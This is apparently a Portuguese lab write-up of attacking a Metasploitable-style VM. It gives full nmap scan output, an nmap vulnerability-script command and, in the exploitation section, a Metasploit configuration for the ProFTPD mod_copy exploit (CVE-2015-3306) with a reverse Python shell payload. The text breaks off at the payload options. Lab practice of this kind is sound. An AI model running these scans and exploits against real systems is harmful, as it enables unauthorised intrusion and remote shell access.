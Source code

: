Comando utilizado: `nmap -sS -p- -sV -T4 -v 192.168.0.207`

```console
Nmap scan report for 192.168.0.207
Host is up (0.00051s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
3500/tcp open   http        WEBrick httpd 1.3.1 (Ruby 2.3.8 (2018-10-18))
6697/tcp open   irc         UnrealIRCd
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
MAC Address: 08:00:27:42:51:79 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts: 127.0.0.1, UBUNTU, irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


Varredura de vulnerabilidades com `nmap`:


Comando: `nmap -sV --script vuln -p 21,22,80,445,631,3306,3500,6697,8080 -oN metasploitable_vulns.txt 192.168.0.207`


[Resultado do comando](/doc/nmap.md)


## 3. Exploração

### ProFTPD

Para obter acesso inicial à máquina alvo, exploramos uma vulnerabilidade no serviço ProFTPD (versão 1.3.5) utilizando o módulo do Metasploit `exploit/unix/ftp/proftpd_modcopy_exec`, que explora a falha identificada como CVE-2015-3306.

**Configuração do Módulo**  
  

```console
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.0.207    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                         ng-metasploit/basics/using-metasploit.html
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
```